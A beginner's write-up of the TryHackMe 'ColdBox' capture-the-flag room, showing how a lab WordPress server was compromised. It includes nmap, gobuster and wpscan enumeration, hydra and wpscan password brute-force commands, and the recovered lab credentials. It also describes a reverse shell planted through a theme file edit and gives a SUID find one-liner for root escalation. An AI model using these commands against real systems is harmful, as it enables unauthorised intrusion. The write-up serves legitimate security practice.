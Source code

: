 # ColdBox Room [TryHackMe](https://tryhackme.com/room/colddboxeasy)

---

![Coldbox](./.assets/ColdboxEasy.png)

---

## Index
- [Enumeration](#enumeration)
- [Find vunerabilies](#finding-vunerabilies)
- [Reverse shell](#gaining-a-reverse-shell)
- [PrivEsc](#priviledge-escalation)

---

```bash
$ export IP=10.10.94.215
```

---
### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt

```

Ports:
```
80 http
4512 ssh
```

Directories:
```
/wp-content
/wp-admin.php
/wp-login.php
/hidden
/xmlrpc.php
```

---
### Finding vunerabilies

Since this is a wordpress website, we can use `wpscan` to enumerate it easily and quickly

```bash
$ wpscan --url $IP -e vp,vt,u
```

This yields multiple usernames we can leverage. They also correlate with names we found in `/hidden`

Contructing the hydra command to brute force the users
```bash
$ hydra -t 64 -V -L users.txt -P ~/wordlists/passwords/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:incorrect"
```

Also, worthy to note wpscan's bruteforcer which seems as faster (if not faster) than hydra at full sprint
```bash
$ wpscan --url $IP -U users.txt -P ~/wordlists/passwords/rockyou.txt
```
And you don't even need to tinker with the request format, making it much nicer to work with than hydra.

Once that is done (takes a while unfortunately) we gain the credentials:
`c0ldd:9876543210`

---
### Gaining a reverse shell

Once we're in, I notice our ability to edit theme files. Meaning that we can create a php reverse shell by modifying one of the php scripts with our reverse shell code.
I chose `404.php` in the twentyfifteen theme and navigated to `http://$IP/wp-content/themes/twentyfifteen/404.php` and voila! Our reverse shell is active.


---
### Priviledge Escalation

Now that we are logged on as `www-data` I navigate to `/tmp` and `wget` linpeas to begin enumerating the system.
I quickly notice a strange plaintext linpeas found in the wordpress config in regards to a database. It gave a username `c0ldd` and their password `cybersecurity` but before I decide to `su` into `c0ldd` I notice that `find` has its SUID bit set, enabling us to quickly escalate to root!
Before I exploit find, I decide to check if `c0ldd`'s password really was cybersecurity. And it is!
Moving onto `find` though,

```bash
find . -exec /bin/bash -ip \; -quit
```

And we are now root!
Note, that you can decode your user and root flags using b64 and google translating them from Spanish!
(The room requires the encoded flags though)

And we are _**complete!**_

Great practice for beginners like myself

![ice box](https://www.muralesyvinilos.com/murales/cubitos_de_hielo_muralesyvinilos_14152670__Monthly_XXL.jpg)
